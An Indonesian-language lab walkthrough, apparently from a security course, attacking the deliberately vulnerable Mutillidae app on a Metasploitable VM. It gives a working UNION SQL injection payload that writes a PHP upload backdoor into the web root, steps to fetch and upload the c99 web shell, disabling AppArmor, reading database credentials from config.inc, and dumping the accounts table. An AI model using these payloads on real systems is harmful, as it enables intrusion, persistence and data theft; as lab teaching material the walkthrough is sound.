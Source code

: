 ## Lesson 11 - SQL Injection Union Exploit \#4

### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Download file, lakukan command berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrta
```
![](/assets/lesson-11/lesson11_1.JPG)

* **Step 2** : Unrar file dan gabungkan menjadi script, lakukan command berikut
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrta
```
![](/assets/lesson-11/lesson11_2.JPG)

* **Step 3** : Ubah header file php yang awalnya `<?` menjadi `<?php` kemudian file dan gabungkan menjadi script, lakukan command berikut
```
sed -i '1 s/^.*$/<?php/g' c99.php
ls -lrta
```
![](/assets/lesson-11/lesson11_3.JPG)


### \# Upload c99.php (PHP SQL Injection)

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/mutillidae/upload_file.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **upload_file.php**
![](/assets/lesson-9/injection_result.JPG)

* **Step 5** : Melihat hasil operasi dengan web browser di `http://10.151.36.64/mutillidae/upload_file.php` 
![](/assets/lesson-11/lesson11_4.JPG)

* **Step 6** : Pilih file c99.php yang kita buat tadi di `/root/backdoor/c99.php`, kemudian pilih Submit
![](/assets/lesson-11/lesson11_5.JPG)


### \# Mengambil autentikasi database

* **Step 1** : Melihat hasil operasi dengan web browser di `http://10.151.36.64/mutillidae/c99.php` 
![](/assets/lesson-11/lesson11_6.JPG)

* **Step 2** : Mengetahui working directory, dengan execute command `pwd`
![](/assets/lesson-11/lesson11_7.JPG)

* **Step 3** : Mencari file yang berisi konfigurasi database, dengan execute command `find /var/www/mutillidae | xargs grep -i "dbuser"`
![](/assets/lesson-11/lesson11_8.JPG)

* **Step 4** : Membuka file yang berisi konfigurasi database, dengan execute command `cat /var/www/mutillidae/config.inc`
![](/assets/lesson-11/lesson11_9.JPG)

Tercatat :
**host** : localhost atau 0.0.0.0
**user** : root
**password** : (kosong)
**nama database** : owasp10

### \# Mengakses database

* **Step 1** : Pilih tab **SQL** kemudian masukan autentikasi yang kita peroleh
![](/assets/lesson-11/lesson11_10.JPG)

* **Step 2** : Akan terlihat daftar tabel yang ada dalam database tersebut
![](/assets/lesson-11/lesson11_11.JPG)

* **Step 3** : Pilih tabel **accounts** kemudian pilih **insert** untuk memasukan data baru, lalu isi dengan data sesuka Anda
![](/assets/lesson-11/lesson11_12.JPG)

* **Step 4** : Kembali ke daftar akun di tabel **accounts**, terlihat akun kita masuk ke row terbaru
![](/assets/lesson-11/lesson11_13.JPG)

* **Step 5** : Pilih opsi **Dump** pada tabel **accounts**, sesuaikan paramater sesuai kebutuhan, kemudian pilih Dump.
![](/assets/lesson-11/lesson11_14.JPG)

* **Step 6** : File `.sql` yang tersimpan berisi sintaks SQL dari tabel **accounts** yang bisa kita gunakan
![](/assets/lesson-11/lesson11_15.JPG)







